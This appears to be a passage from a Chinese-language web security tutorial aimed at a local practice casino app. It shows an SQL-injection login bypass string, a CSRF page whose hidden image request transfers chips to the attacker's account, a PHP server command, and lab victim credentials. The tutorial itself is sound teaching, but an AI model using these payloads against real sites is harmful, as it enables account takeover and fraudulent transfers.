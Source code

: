 **开赌场:**

你的服务器应该加载，现在你可以打开赌场。

进入浏览器，在地址栏中键入:

[http://casino . local:3000](http://casino.local:3000)

**黑掉认证:**

当您访问该 URL 时，您应该会看到赌场的网站和登录表单。

我们不知道 ace 帐户的登录名和密码。

所以我们可以通过 SQL 注入来破解。

你可以用一些你在上一课已经学过的方法来破解它，或者用下面的方法。

密码输入应该为空，在用户输入中，您应该键入:

```
**‘)** OR 1=1 — 
```

**准备恶意网站:**

恭喜你，你已经黑进了王牌飞行员的账户！

接下来，我们应该创建一些恶意网站，我们将把我们的图像与假网址，这将做一个呼叫赌场(我们的受害者登录)。

首先，您需要为此创建一个文件夹，接下来，您需要用代码创建 index.php 文件。

请看下面的例子:

```
<html>
<head></head>
<body>
  <h1>Greetings from Duomly</h1>
  <img src="http://localhost:3000/account/transfer_chips?transfer=1000&login[]=andy_aces&commit=Transfer+Chips"/>
</body>
</html>
```

**运行恶意网站:**

下一步就是运行我们的 PHP 服务器，它将托管我们的恶意站点。

在包含我们的代码和类型的目录中打开终端:

```
php -S localhost:8000
```

**以博比 _ 21 点的身份登录:**

在这一步，我们需要做一段时间的受害者。

我们需要以受害者身份登录，并查看我们(受害者)的个人资料或余额。

这是我们可以使用的凭证。

```
login:bobby_blackjackpass:twenty_one
```
